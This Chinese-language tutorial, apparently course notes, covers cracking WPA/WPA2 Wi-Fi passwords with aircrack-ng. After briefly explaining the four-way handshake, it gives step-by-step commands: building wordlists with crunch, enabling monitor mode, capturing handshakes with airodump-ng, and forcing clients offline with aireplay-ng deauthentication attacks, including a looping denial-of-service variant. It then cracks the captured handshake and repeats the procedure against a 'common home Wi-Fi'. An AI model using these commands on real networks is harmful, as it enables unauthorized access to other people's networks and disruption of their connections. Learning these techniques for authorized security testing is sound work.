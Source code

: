 # WPA-aircrack-ng渗透WPA加密

## 1.WPA概念介绍

WPA 全名 WI-FI Protected Access, 有WPA 和WPA2两个标准，是一种保护无线网络的安全协议。

WPA实现了IEEE802.11i标准的大部分，是在802.11i完备之前替代WEP的过度方案，后被WPA2取代。

由于WPA和WPA2都是基于802.11i，因此在技术层面几乎是相同的。主要区别在于WPA2要求支持更安全的CCMP。

## 2.工作原理

WPA和WPA2均使用802.11i中定义的四次握手，客户端（station）和接入点（AP）通过四次握手相互验证和协商名为成对临时密钥（Pairwise Transient Key, PTK）的会话密钥。PTK通过成对主密钥（Pairwise Master key, PMK）、AP随机数ANonce、STA随机数SNonce和双方MAC地址等计算生成。其中PMK由登陆密码等双方均已知的信息计算生成，而后续正常数据加密所使用的临时密钥（Temporal KEY, TK）即派生自PTK，各密钥、参数的关系如下：

![image-20211201175811088](https://image.201068.xyz/assets/image-20211201175811088.png)

四次握手的过程可概括如下：

（1）AP发送自己的随机数ANonce给STA

（2）STA生成随机数SNonce，计算出PTK，并将SNonce和信息完整性校验码MIC发送给AP

（3）AP收到SNonce，计算出PTK（此时双方都有PTK），将组密钥GTK加密后连同MIC发给STA

（4）STA收到GTK，安装PTK和GTK，发送ACK确认。AP收到确认后安装PTK。

![image-20211201175839342](https://image.201068.xyz/assets/image-20211201175839342.png)

## 3.wifi设置

### 1.打开wifi设置网站

```
http://192.168.1.1/                              
```

### 2.选择无线配置

![image-20211201175942316](https://image.201068.xyz/assets/image-20211201175942316.png)

### 3.选择加密方式

![image-20211201180006739](https://image.201068.xyz/assets/image-20211201180006739.png)

## 4.打造字典

### 1.crunch生成密码 

```
crunch 8 8 -t %%%%%,,, > pwd.txt
8:最小长度
8:最大长度
-t：定义输出格式
,:代表大写字母
%:代表数字
^:代表符号
14GB大字典
```

查看字典

```
tail pwd.txt
```

### 2.手工打造

```
vi passwd.txt

12456
sadasdas
SXiooo1
16330XSX
12345678
```

## 5.渗透步骤

### 1.查看网卡

```
ip a
```

### 2.开启监听模式

```
airmon-ng start wlan0
```

### 3.扫描wifi

```
airodump-ng wlan0mon
```

### 4.抓包保存

```
airodump-ng wlan0mon -c 1 --bssid D8:24:BD:79:18:0B -w wpa-1 
-c:指定信道
--bssid:AP的MAC地址
-w:保存抓包结果
```

### 5.进行冲突模式攻击

将设备踢下线，当用户重连的时候，就会抓到握手包

```
aireplay-ng -0 5 -a D8:24:BD:79:18:0B -c 18:CC:18:C5:D5:64 wlan0mon
-0：冲突攻击模式，后面跟发送次数（设置为 0，则为循环攻击，不停的断开连接，客户端无法正常上网）
-a:设置 ap 的 mac
-c：设置已连接的合法客户端的 mac
```

![image-20211201180247068](https://image.201068.xyz/assets/image-20211201180247068.png)

### 6.破解wifi

```
aircrack-ng -w /root/wifi/passwd.txt wpa-1-01.cap
```

![image-20211201180327419](https://image.201068.xyz/assets/image-20211201180327419.png)

### 7.使用大字典破解

```
aircrack-ng -w /root/wifi/pwd.txt wpa-1-01.cap
```

![image-20211201180351522](https://image.201068.xyz/assets/image-20211201180351522.png)

### 8.不指定字典破解

```
crunch 8 8 -t %%%%%,,, | aircrack-ng wpa-1-01.cap -e cisco-1809 -w -
```

![image-20211201180447549](https://image.201068.xyz/assets/image-20211201180447549.png)

![image-20211201180502673](https://image.201068.xyz/assets/image-20211201180502673.png)

## 6.渗透普通家用wifi

### 1.抓包

```
airodump-ng wlan0mon -c 1 --bssid 50:21:EC:97:BB:80 -w wpa-1 
-c:指定信道
--bssid:AP的MAC地址
-w:保存抓包结果
```

### 2.进行冲突模式攻击

将设备踢下线，当用户重连的时候，就会抓到握手包

```
aireplay-ng -0 5 -a 50:21:EC:97:BB:80 -c 18:CC:18:C5:D5:64 wlan0mon
-0：冲突攻击模式，后面跟发送次数（设置为 0，则为循环攻击，不停的断开连接，客户端无法正常上网）
-a:设置 ap 的 mac
-c：设置已连接的合法客户端的 mac
```

### 3.破解wifi

```
aircrack-ng -w /root/wifi/passwd.txt wpa-1-01.cap
```



## 7.课程小结

参考：课后笔记

